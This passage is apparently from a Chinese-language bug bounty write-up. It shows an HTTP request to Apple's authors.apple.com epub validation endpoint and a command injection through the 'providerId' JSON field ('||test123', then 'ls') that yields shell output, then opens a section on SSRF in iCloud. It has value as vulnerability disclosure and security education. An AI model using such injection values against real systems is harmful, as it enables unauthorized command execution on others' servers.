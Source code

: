 
### HTTP Request:
```
POST /api/v1/validate/epub HTTP/1.1
Host: authors.apple.com
{"epubKey":"2020_8_11/10f7f9ad-2a8a-44aa-9eec-8e48468de1d8_sample.epub","providerId":"BrettBuerhaus2096637541"}
```

### HTTP Response:
```
[2020-08-11 21:49:59 UTC] <main> DBG-X:   parameter TransporterArguments = -m validateRawAssets -assetFile /tmp/10f7f9ad-2a8a-44aa-9eec-8e48468de1d8_sample.epub -dsToken **hidden value** -DDataCenters=contentdelivery.itunes.apple.com -Dtransporter.client=BooksPortal -Dcom.apple.transporter.updater.disable=true -verbose eXtreme -Dcom.transporter.client.version=1.0 -itc_provider BrettBuerhaus2096637541
```

正如你現在可能猜到的那樣，我們對 `provderId` JSON 值進行簡單的 command injection  
我們在下一次上傳時攔截了 request 並將其替換為

```
"providerId":"BrettBuerhaus2096637541||test123"
```

結果是！
```
/bin/sh: 1: test123: not found
```

接著我們改串 `ls` ...，結果

![](https://i.imgur.com/njo88pO.png)  

總結，攻擊者可能會用它來
- 在 authors.apple.com server 上執行任意命令
- 訪問 Apple 的內部網絡


這是一個很好的練習，也是一個很好的提醒
- 確保充分探索你正在測試的內容
- recon 研究中的許多名人都在談建立一個  mind maps，這就是一個例子
- 我們從 iTunes Connect 開始，開始探索圖書，並繼續擴展
- 直到我們完全了解圍繞該單一功能存在哪些服務

在你開始測試之前
- 需要找到盡可能多的 information 。如果不看 help doc
- 你可能完全錯過了網絡 epub app，因為它只是一個頁面上的 link


## iCloud 上的 full Response SSRF，讓 attacker 能看 Apple source code
- SSFR (Server-Side Request Forgery)
- Blind SSRF: 利用 SSRF 時，無法讀取 response，這類稱為 Blind SSRF


